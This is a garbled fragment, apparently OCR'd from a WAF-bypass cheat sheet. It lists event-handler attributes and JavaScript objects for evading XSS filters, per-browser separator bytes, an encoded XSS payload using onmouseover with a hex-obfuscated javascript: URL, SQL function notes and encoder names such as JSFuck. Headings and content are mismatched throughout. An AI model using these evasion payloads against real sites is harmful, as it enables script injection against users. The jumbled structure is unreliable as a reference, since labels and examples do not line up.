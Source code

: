 *   JavaScript functions:
    

*   `window`
    
*   `parent`
    
*   `this`
    
*   `self`
    

*   Tag attributes:
    

*   `onwheel`
    
*   `ontoggle`
    
*   `onfilterchange`
    
*   `onbeforescriptexecute`
    
*   `ondragstart`
    
*   `onauxclick`
    
*   `onpointerover`
    
*   `srcdoc`
    

SQL Operators

`lpad`

```
IExplorer: 0x09, 0x0B, 0x0C, 0x20, 0x3BChrome: 0x09, 0x20, 0x28, 0x2C, 0x3BSafari: 0x2C, 0x3BFireFox: 0x09, 0x20, 0x28, 0x2C, 0x3BOpera: 0x09, 0x20, 0x2C, 0x3BAndroid: 0x09, 0x20, 0x28, 0x2C, 0x3B
```

`field`

```
<a/onmouseover[\x0b]=location='\x6A\x61\x76\x61\x73\x63\x72\x69\x70\x74\x3A\x61\x6C\x65\x72\x74\x28\x30\x29\x3B'>pwn3d
```

`bit_count` 二进制数中包含 1 的个数。BIT_COUNT(10); 因为 10 转成二进制是 1010，所以该结果就是 2

示例 payloads:

```
lpad( string, padded_length, [ pad_string ] ) lpad函数从左边对字符串使用指定的字符进行填充  lpad('tech', 7); 将返回' tech'  lpad('tech', 2); 将返回'te'  lpad('tech', 8, '0'); 将返回'0000tech'  lpad('tech on the net', 15, 'z'); 将返回'tech on the net'  lpad('tech on the net', 16, 'z'); 将返回'ztech on the net
```

JSFuck

JJEncode

XChars.JS

### 滥用 SSL/TLS 密码:
